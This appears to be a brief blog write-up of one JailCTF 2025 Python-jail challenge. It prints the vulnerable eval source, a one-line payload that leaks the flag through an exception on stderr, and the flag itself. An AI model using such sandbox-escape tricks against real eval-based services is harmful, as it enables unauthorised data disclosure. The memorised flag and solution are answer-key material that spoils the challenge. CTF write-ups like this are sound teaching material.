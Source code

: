 ```yaml
---
title: "JailCTF 2025"
date: 2025-10-05T21:54:07+08:00
draft: false # Set 'false' to publish
tableOfContents: false # Enable/disable Table of Contents
description: ''
categories:
  - CTF
tags:
  - Write Up
---
```


## pyjail
### blindness

source code:
```python
import sys
inp = input('blindness > ')
sys.stdout.close()
flag = open('flag.txt').read()
eval(inp, {'__builtins__': {}, 'flag': flag})
print('bye bye')
```

Simply put, there is no direct echo and no built-in jail.
The flag can be accessed directly, but without stdout, it cannot be printed out.
You can trigger an Exception to make the flag appear in stderr.

payload:
```python
().__getattribute__(flag)
```

Flag: `jail{stderr_leak_5fd787f079eb69e}`

--- 

# END

Huh? You ask why there’s only one challenge I solved?  
Go check out [Securinets-CTF-2025](../securinets-ctf-2025/) instead.